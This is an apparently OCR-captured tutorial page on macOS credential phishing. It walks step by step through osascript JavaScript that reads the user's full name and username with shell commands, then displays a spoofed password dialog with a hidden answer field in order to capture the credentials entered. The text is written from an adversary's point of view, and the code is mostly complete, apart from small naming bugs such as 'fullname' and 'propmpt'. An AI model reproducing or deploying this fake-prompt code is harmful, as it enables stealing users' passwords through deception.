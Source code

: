 for (legitimate) app developers, the method to get access to credentials is simple: prompts. however, this method isn't ideal for adversaries because it requires some level of elevated credentials. as always, we might be able to use this to our advantage. 

- ![alt text](image-prompt.png)


- # credential acces via prompts

users have become increasingly trained to authenticate to any popup on their machine. this leads us to an obvious next-step: create custom popup messages to ask for authentication, and record the credentials entered. 

first, set up the scripting environment by initializing `osascript` with javascript. 

```bash
osascript -l JavaScript -i
```

inside the new environment, create an `app` object that represents the current application and enables standard additions, which allows us to use the dialog functions.

```js
let app = Application.currentApplication()
app.includeStandardAdditions = true
```

now, for the main function. in OSA JavaScript, the `run()` function is the entry point of the script.


```js
function run() {

}
```

using shell commands, get the user's full name + username.

```js
const fullName = app.doShellScript('id -F')
const username = app.doShellScript('whoami')
```

define the title, text, default answer, and icon for the dialog. these will be displayed to the user.

```js
const title = `Hello ${fullname}`
const text = `Hi ${username}, please enter your password:`
const answer = ""
const icon = "caution"
```

display the dialog, and wrap it in a try-catch block to handle cancellations or errors.

```js
try {
    let propmpt = app.displayDialog(text, {
        defaultAnswer: answer,
        buttons: ['OK', 'Cancel'],
        defaultButton: 'OK',
        cancelButton: 'Cancel',
        withTitle: title,
        withIcon: icon,
        hiddenAnswer: true
    })
} catch (err){
    // handle errors
}
```

